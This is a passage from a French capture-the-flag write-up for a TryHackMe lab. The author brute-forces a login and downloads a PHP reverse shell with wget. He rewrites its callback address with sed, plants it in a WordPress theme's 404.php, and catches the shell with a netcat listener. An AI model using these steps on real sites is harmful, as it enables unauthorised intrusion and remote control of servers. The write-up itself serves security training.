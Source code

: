 Supprime tout les mots en doublons ou plus.   

On brute force le mot de passe.    
On trouve un mot de passe qui est : ER28-0652    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php -nv
2021-08-17 21:52:04 URL:https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php [5491/5491] -> "php-reverse-shell.php" [1]

tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/127.0.0.1/10.9.228.66/g' php-reverse-shell.php 

```

On télécharge le reverse shell.    
On le prépare.   

![page4](./Task1-04.png)

Dans appearance allez dans Editor.  
On mette le reverse shell dans le fichier 404.php

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port 1234 pour se connecter au reverse shell.  

![page5](./Task1-05.png)
